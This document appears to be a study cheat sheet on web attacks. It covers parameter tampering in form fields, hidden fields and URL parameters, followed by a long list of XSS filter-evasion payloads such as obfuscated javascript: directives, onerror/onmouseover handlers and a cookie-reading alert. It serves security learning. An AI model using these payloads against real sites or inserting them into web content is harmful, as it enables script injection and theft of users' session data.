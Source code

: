 # SC MST Cheat Sheet

###### tags: #SC 

## Table of Contents
```toc
```

## Parameter Tampering
### Tampering of Form Fields
- Form field values can be tampered on Burp Suite by intercepting packets and forwarding them

### Hidden Field
- If a website uses hidden fields to store status information, malicious user can tamper with the values stored in their browser and change the referred information
- Values can be modified via by inspecting elements in the web browser

### Tampering with URL Parameters
- URLs can show parameters and values can be modified:
```
# Original
https://www.example.com/defaut.asp?profile=123&value=123

# Modified (Statuses)
https://www.example.com/defaut.asp?profile=123&value=123&status=read
https://www.example.com/defaut.asp?profile=123&value=123&status=del
```

## XSS Filter Evasion
- Basic XSS Test
```html
<script>alert("Hello World!")</script>
```

### Image XSS Using JavaScript Directive
- No quotes or semicolons
```html
<img src=javascript:alert('XSS')>
```
- HTML entities
```html
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
- Grave accent obfuscation
```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
- Malformed `<a>` tags
```html
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
```
- Malformed `<img>` tags
```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
- `fromCharCode` (if no quotes of any kind are allowed, use `eval()` to create any XSS vector)
```html
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
- Default `src` tag to get past filters that check SRC domain
```html
<IMG SRC=# onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it empty
```html
<IMG SRC= onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it out entirely
```html
<IMG onmouseover="alert('xxs')">
```
- On error alert
```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```
- `img onerror` and JavaScript alert encode
```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
- Embedded tab
```html
<IMG SRC="jav ascript:alert('XSS');">
```
- Embedded encoded tab
```html
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```
- Embedded newline to breakup XSS
```html
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
- Spaces and meta characters before the JavaScript in images for XSS
	- Useful if the pattern match does not take into account spaces in the word `javascript`
```html
<IMG SRC=" &#14; javascript:alert('XSS');">
```

### XSS Payload Lists
